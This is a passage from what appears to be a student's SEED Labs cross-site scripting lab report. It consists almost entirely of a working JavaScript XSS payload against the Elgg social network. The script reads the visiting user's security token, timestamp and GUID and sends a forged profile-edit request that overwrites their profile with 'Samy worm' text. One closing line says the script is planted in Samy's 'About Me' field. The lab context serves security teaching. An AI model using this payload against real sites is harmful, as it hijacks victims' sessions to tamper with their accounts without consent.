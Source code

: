 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
<script type="text/javascript">
    window.onload = function () {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var userName = elgg.session.user.username;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/profile/edit";
        var myID = 59; // User ID of Samy

        // If the user is Samy, then the attack is not performed
        if (guid == myID) return;

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('name', userName);
        formData.append('description', '1905001');
        formData.append('accesslevel[description]', '1');
        formData.append('briefdescription', 'I am Samy, the worm. Catch me if you can.');
        formData.append('accesslevel[briefdescription]', '1');
        formData.append('location', 'Pyongyang');
        formData.append('accesslevel[location]', '1');
        formData.append('interests', 'Hacking, XSS, Worms, CSRF, and so on.');
        formData.append('accesslevel[interests]', '1');
        formData.append('skills', 'I can write a worm in 5 minutes. Can you?');
        formData.append('accesslevel[skills]', '1');
        formData.append('contactemail', 'catchmeifyoucan@yahoo.com');
        formData.append('accesslevel[contactemail]', '1');
        formData.append('phone', '9557134');
        formData.append('accesslevel[phone]', '1');
        formData.append('mobile', '01234567890');
        formData.append('accesslevel[mobile]', '1');
        formData.append('website', 'www.samy-worm.com');
        formData.append('accesslevel[website]', '1');
        formData.append('twitter', 'elonmusk');
        formData.append('accesslevel[twitter]', '1');
        formData.append('guid', guid);

        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{verbatim}

In both the cases, we place the malicious script in Samy's ``About Me'' section's ``Edit HTML'' format like the previous task.
\end{document}
